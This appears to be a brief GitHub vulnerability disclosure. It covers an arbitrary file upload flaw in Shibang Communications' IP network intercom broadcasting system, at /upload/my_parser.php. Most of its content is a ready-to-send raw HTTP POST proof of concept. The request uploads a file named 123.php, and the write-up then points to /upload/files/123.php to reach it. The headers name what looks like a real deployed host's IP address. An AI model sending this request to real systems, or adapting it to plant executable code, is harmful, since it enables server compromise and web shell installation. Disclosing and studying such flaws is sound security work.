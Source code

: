 There is an arbitrary file upload vulnerability in the IP network intercom broadcasting system of Shibang Communications Co., Ltd.

1. Impact of vulnerabilities
IP network intercom broadcasting system

2. Vulnerability location
/upload/my_parser.php

3.Vulnerability recurrence

![image](https://github.com/garboa/cve_3/assets/22628693/40d44c9d-d7e6-4425-baa6-adfd61e62ef6)


Upload any file to the server through the following POC
POC
```
POST /upload/my_parser.php HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------316190348235048577772059862095
Content-Length: 239
Origin: http://219.128.48.234:4080
Connection: close
Referer: http://219.128.48.234:4080/html/system.html
X-Forwarded-For: 1.1.1.1

-----------------------------316190348235048577772059862095
Content-Disposition: form-data; name="upload"; filename="123.php"
Content-Type: application/octet-stream

1233
-----------------------------316190348235048577772059862095--

```

![image](https://github.com/garboa/cve_3/assets/22628693/2d84be88-1797-470d-be66-ea6861db34e6)

visit /upload/files/123.php

![image](https://github.com/garboa/cve_3/assets/22628693/b6719180-1589-4800-8bd0-719406e6ff5b)

